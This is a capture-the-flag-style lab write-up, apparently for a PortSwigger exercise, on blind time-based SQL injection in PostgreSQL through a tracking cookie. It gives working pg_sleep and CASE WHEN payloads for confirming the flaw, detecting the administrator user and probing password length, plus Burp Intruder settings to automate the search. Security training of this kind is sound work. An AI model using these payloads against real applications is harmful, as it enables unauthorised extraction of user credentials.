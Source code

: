 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/19a2442a-9838-41eb-be66-b52cda03fca2)## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/906132fb-aaaa-40a2-8bae-549e655fd736)


## Solution :

query made--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

#### Checking that it is vulnerable to blind sql injection  -

query changed--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || pg_sleep(10)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a7e55875-624d-40cb-90b4-3ca17314936b)

Time delay of `20717`. SO it is vulnerable to blind sql injection.

#### Confirm that user table  present in the database-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/678c0f24-fda6-40a5-a46a-60009b68ba05)

Time delay of `15990`.so it is valid query so now we can find whether user table  present in the database or not.here we used the negtive number `-1` because when it is false it won't cause any delay.

when i changed the value from `1=1` to `1=0` it should not cause any dealy lets check if it coming correct or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6570c398-8a56-495b-babe-c345920f734c)

Time delay of `725` which is very much less 10 sec and it didn't cause any delay.So it is valid query so now we can find whether user table  present in the database or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0883964a-228a-4954-a7ec-ed0777a7973d)

Time delay of `12559`.which is larger than 10 sec so now we know user table  present in the database.

#### finding the length of the password--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50b23f29-6c26-4305-b909-b878d2861c94)

Time delay of `10719`.which is larger than 10 sec. So condition is true  length of the password is larger than `1`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>25) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4377c941-63fc-4134-ac0e-7ead36eba660)

Time delay of `725` which is less 10 sec. So condition is false  length of the password is smaller than `25`

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>$1$) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4829c5e2-08cf-478a-8ee1-75f04dc10515)

`we also remove the default resource pool because it mess up with my time based sql injection code by adding create new resource pool and  tick the maximum concentration requests and set it as 1 and start attack.`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/dd630b58-8799-4026-88e8-d80c852a0f10)















